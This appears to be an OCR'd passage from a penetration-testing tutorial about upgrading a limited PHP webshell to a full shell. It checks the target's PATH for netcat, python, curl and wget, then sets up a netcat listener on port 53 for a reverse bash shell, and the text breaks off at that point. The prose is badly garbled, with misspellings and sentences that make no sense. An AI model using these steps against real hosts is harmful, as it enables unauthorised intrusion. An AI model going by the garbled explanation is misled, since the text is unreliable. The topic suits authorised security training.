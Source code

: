 This is a common situation during a penetration testing, enum interactive webshell. Regardless there is a code execution vulnerability as this is a enum interactive shell, and we are unable to fully extract information from the remote host or use it as a point to another internal network. This is why code execution is just beginning. In large corpo environments, you might sometimes need to achieve few code exectution to skip to the interesting network that contain something information which can show the real impact of the portential bridege.

Our first step will be to identify the constrains, in order to achieve our shell. We need to use tool and our represent other system or being able to transfer on tools, and then invoke them using the remote webshell.

First, let's see the path variable, as it will contains the executable locations.

```
192.168.139.130/shell.php
```

```
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

Now, we will visit some of these locations `/usr/bin`, and view tools there.

```
ls /usr/bin
```

Is netcat present?

```
which nc

/usr/bin/nc
```

Is there python or other programming languages installed on the remote system?

```
which python

/usr/bin/python
```

Is a curl or wget?

```
which curl

/usr/bin/curl

which wget

/usr/bin/wget
```

Let's check with netcat. We will set up a local listener on TCP port 53 and try to invoke remote shell by spwanding bash connection.

```
nc -lvp 53
```
